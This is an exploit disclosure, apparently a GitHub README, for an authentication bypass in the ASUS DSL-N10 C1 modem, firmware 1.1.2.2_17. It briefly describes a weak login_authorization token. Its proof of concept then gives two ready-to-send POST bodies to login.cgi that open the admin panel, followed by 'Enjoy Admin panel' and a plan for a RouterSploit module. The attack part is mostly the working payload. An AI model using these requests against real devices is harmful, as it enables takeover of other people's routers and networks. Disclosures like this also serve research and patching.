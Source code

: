 # ASUS-DSL-N10---Authentication-Bypass

## Title: ASUS-DSL N10 1.1.2.2_17 - Authentication Bypass
Author: AmnBAN team
Date: 2018-08-06
Vendor Homepage: https://www.asus.com/Networking/DSLN10_C1_with_5dBi_antenna/
Sofrware version: 1.1.2.2_17
CVE: N/A
 
## 1. Description:
In ASUS-DSL N10 C1 modem Firmware Version 1.1.2.2_17 there is login_authorization 
parameter in post data, that use for authorization access to admin panel, 
the data of this parameter is not fully random and you can use old data 
or data of another device to access admin panel.
 
## 2. Proof of Concept:
Browse http://<Your Modem IP>/login.cgi
 
Send this post data:
group_id=&action_mode=&action_script=&action_wait=5&current_page=Main_Login.asp&next_page=%2Fcgi-bin%2FAdvanced_LAN_Content.asp&login_authorization=YWRtaW46MQ%3D%2D
 
Or this post data:
group_id=&action_mode=&action_script=&action_wait=5&current_page=Main_Login.asp&next_page=%2Fcgi-bin%2FAdvanced_LAN_Content.asp&login_authorization=FWRtaW46MQ%3D5D

## 3. Enjoy Admin panel

## links
https://www.exploit-db.com/exploits/45201/

## TODO:
Develop RouterSploit  module for this vulnerability
